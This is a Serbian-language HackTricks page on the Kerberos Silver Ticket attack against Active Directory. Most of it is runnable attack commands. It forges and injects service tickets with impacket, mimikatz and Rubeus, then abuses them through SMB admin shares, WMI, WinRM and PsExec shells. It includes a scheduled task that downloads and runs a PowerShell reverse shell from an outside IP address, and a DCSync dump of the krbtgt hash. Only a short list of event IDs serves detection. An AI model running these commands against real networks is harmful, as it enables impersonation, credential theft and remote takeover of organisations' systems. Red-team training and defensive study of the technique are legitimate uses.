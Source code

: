 # Silver Ticket

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Savet za bug bounty**: **registrujte se** za **Intigriti**, premium **platformu za bug bounty kreiranu od hakera, za hakere**! Pridružite nam se na [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) danas, i počnite da zarađujete nagrade do **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## Srebrna karta

Napad **Srebrna karta** uključuje iskorišćavanje servisnih karata u okruženjima Active Directory (AD). Ova metoda se oslanja na **dobijanje NTLM heša servisnog naloga**, kao što je nalog računara, kako bi se falsifikovala karta za uslugu dodeljivanja karata (TGS). Sa ovom falsifikovanom kartom, napadač može pristupiti određenim uslugama na mreži, **predstavljajući se kao bilo koji korisnik**, obično ciljajući administrativne privilegije. Naglašava se da je korišćenje AES ključeva za falsifikovanje karata sigurnije i manje detektovano.

Za izradu karata, koriste se različiti alati zavisno od operativnog sistema:

### Na Linux-u

```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```

### Na Windows operativnom sistemu

```bash
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```

## Dostupne usluge

| Tip usluge                                         | Srebrne karte usluga                                                          |
| -------------------------------------------------- | ----------------------------------------------------------------------------- |
| WMI                                                | <p>HOST</p><p>RPCSS</p>                                                       |
| PowerShell udaljeno upravljanje                    | <p>HOST</p><p>HTTP</p><p>Zavisno od OS-a takođe:</p><p>WSMAN</p><p>RPCSS</p>  |
| WinRM                                              | <p>HOST</p><p>HTTP</p><p>U nekim slučajevima možete samo zatražiti: WINRM</p> |
| Planirani zadaci                                   | HOST                                                                          |
| Deljenje datoteka u sistemu Windows, takođe psexec | CIFS                                                                          |
| LDAP operacije, uključujući DCSync                 | LDAP                                                                          |
| Alati za udaljeno upravljanje serverom Windows     | <p>RPCSS</p><p>LDAP</p><p>CIFS</p>                                            |
| Zlatne karte                                       | krbtgt                                                                        |

Korišćenjem **Rubeus**-a možete **zatražiti sve** ove karte usluga koristeći parametar:

* `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

### Događaji ID-ova srebrnih karata

* 4624: Prijava na nalog
* 4634: Odjava sa naloga
* 4672: Admin prijava

## Zloupotreba karata usluga

U sledećim primerima zamislimo da je karta dobijena predstavljajući se kao administratorski nalog.

### CIFS

Sa ovom kartom moći ćete pristupiti fasciklama `C$` i `ADMIN$` putem **SMB** (ako su izložene) i kopirati datoteke na deo udaljenog fajl sistema samo radeći nešto poput:

```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```

### HOST

Sa ovlašćenjem možete generisati zakazane zadatke na udaljenim računarima i izvršiti proizvoljne komande:

```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```

### HOST + RPCSS

Sa ovim kartama možete **izvršiti WMI na sistemu žrtve**:

```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```

### HOST + WSMAN (WINRM)

Sa winrm pristupom preko računara možete **pristupiti** čak i dobiti PowerShell:

```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```

Proverite sledeću stranicu da biste saznali **više načina za povezivanje sa udaljenim hostom pomoću winrm**:

{% content-ref url="../lateral-movement/winrm.md" %}
[winrm.md](../lateral-movement/winrm.md)
{% endcontent-ref %}

{% hint style="warning" %}
Imajte na umu da **winrm mora biti aktivan i osluškivan** na udaljenom računaru da biste mu pristupili.
{% endhint %}

### LDAP

Sa ovim privilegijama možete iskopati bazu podataka DC-a koristeći **DCSync**:

```
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```

**Saznajte više o DCSync** na sledećoj stranici:

## Reference

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Savet za bug bounty**: **Prijavite se** za **Intigriti**, premium **platformu za bug bounty kreiranu od hakera, za hakere**! Pridružite nam se na [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) danas, i počnite da zarađujete nagrade do **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

<details>

<summary><strong>Naučite AWS hakovanje od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
